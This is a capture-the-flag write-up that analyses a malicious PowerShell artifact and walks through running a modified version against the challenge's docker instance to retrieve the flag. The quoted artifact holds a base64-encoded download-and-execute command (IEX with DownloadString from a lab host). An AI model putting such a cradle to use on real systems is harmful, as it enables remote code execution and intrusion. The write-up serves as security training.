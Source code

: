 ## Description

- Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

## Skills Required

- Familiarity with analyzing Powershell code
- Familiarity with basic encoding operations

## Skills Learned

- Analyzing Powershell code extracting relevant data
- Persistence techniques
# Enumeration

The following file is provided:

- `artifact.ps1`: contains some Powershell code

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Looking at the code, it is possible to see that a function **qt4PO** is declared and then called.

# Solution
**DO NOT RUN ANY MALICIOUS ARTIFACTS**

First step was to follow instruction and update my hosts file
![](Images/Pasted%20image%2020250326221702.png)
After that I removed the check for the hostname entirely from the function, and decoded the encoded string from the powershell function.
![](Images/Pasted%20image%2020250326221737.png)
I then adjusted the code to connect with our respective docker instance and ran it.
![](Images/Pasted%20image%2020250326221808.png)
Running that gets us a new file.
![](Images/Pasted%20image%2020250326221832.png)
Follow the same and update the script with out respective port in the URL. Executing that get us our flag.
![](Images/Pasted%20image%2020250326221919.png)
